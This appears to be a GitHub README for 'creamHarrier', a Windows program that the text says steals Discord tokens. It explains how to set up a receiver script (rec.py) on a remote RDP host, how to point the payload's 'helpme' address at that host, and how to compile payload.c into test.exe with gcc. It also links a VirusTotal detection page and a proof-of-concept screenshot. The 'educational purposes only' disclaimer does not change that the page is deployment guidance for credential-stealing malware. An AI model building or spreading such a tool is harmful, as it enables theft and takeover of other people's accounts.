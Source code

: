 # creamHarrier
- This basically steals discord token.

# Disclamer:
- This is for educational purposes only, I am not responsible for what or for whom.
 
## run rec.py on rdp or somewhere also modify helpme to the ip of the rdp 
```
#define helpme "127.0.0.1"
``` 

## how to compile
```
gcc payload.c -o test.exe -lws2_32 -lwsock32
```

# Virus total

https://www.virustotal.com/gui/file/1a8db167437be63ed19abf91299f14ce653ad39adfe0cccbf7ffc9eed9cb6a85/detection

# Proof of concept
![Screenshot](https://media.discordapp.net/attachments/775156196562305044/830364577723187220/unknown.png)
